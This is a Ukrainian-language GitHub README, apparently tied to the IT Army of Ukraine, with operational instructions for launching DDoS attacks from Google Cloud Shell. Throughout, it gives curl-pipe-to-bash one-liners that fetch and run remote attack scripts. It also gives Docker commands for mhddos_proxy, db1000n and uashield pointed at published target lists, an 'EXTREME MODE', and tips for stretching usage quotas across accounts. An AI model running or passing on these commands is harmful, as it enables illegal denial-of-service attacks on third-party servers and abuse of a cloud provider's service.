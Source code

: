 # [DDoS whith Google Cloud Shell](https://sites.google.com/view/operationrussia/googleshell)
#### Scripts for durable cloudshell session. Test!                                                                                 **| [English version](https://github.com/Operation-Stop-russia/Gcloudshell_ddos/blob/main/README-EN.md)**
#    
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
### з ПК та смартфонів (*зі всього, що має браузер*;)
#
#### Браузерний спосіб (*підходить для використання від 1 до 20 акаунтів з одного ПК, якщо більше [Вам сюди](https://github.com/Operation-Stop-russia/Gcloudshell_ddos/tree/main/GShellSDK#readme)*)
:exclamation:• **Рекомендується використовувати 1 термінал на акаунт**.    
:exclamation:• **Максимальна тривалість сеансу Cloud Shell - 12 годин. Новий сеанс можна почати одразу після розриву.**    
:exclamation:• Враховуйте, що встановлені **тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та від 10 до 50 годин у ефемерному режимі** (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще до 50 годин використання на поточний тиждень. Або навпаки, краще починати з ефемерного режиму*)    
:exclamation:• У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях можна вимкнути статистику використання.    
• **Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart" *(Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням)*
#
### Стабільні сеанси (*90%*)
:white_check_mark:**Команда для встановлення та запуску mhddos_proxy** (Bash):
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
:white_check_mark:**Команда для встановлення та запуску mhddos_proxy** (*Docker*):
```
sudo docker run -it --rm  --cpus="0.7" --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:old -c https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7.lst -t 3000 --vpn 1 --http-methods GET --rpc 500
```
:white_check_mark: **Команда для встановлення та запуску db1000n** (Bash):
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
:white_check_mark:**Команда для встановлення та запуску db1000n** (*Docker*):
```
sudo docker run -it --rm  --cpus="0.5" --rm -it --pull always ghcr.io/arriven/db1000n
```
:white_check_mark:**Команда для встановлення та запуску mhddos_proxy** *тільки проксі*  (Bash):
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m-proxy_only.sh | bash
```
:white_check_mark:**Команда для встановлення та запуску UA-Cyber-SHIELD** (*Docker*):
```
sudo docker run -it --rm  --cpus="0.5" ghcr.io/opengs/uashield:master --workers=256 --withProxy=true
```
#
#
### Тести/допрацювання/експерименти. 
**Нестабільні сеанси, перериваються** (потрібно часто перевіряти)      
  
:grey_question:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/L4_tcp.sh | bash
```
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash    
```
:grey_question:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/ALL.sh | bash
```
:grey_question:***--itarmy*:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
:grey_question:**Розділений термінал (Layer7+Layer4):**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
#
### EXTREME MODE:zap:NoLimits (команди mhddos_proxy без параметрів)
 :exclamation: **Атаки виходять потужні але короткі + висока ймовірність отримати бан** (*бан зазвичай тимчасовий і стосується тільки доступу до GShell*)    
  
:zap:***--itarmy*:**
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/itarmyX.sh | bash
```
:zap:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/tcpX.sh | bash
```
:zap:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/ALLx.sh | bash
```
#
#
#### Списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4_tcp.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/AllTargets.lst
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
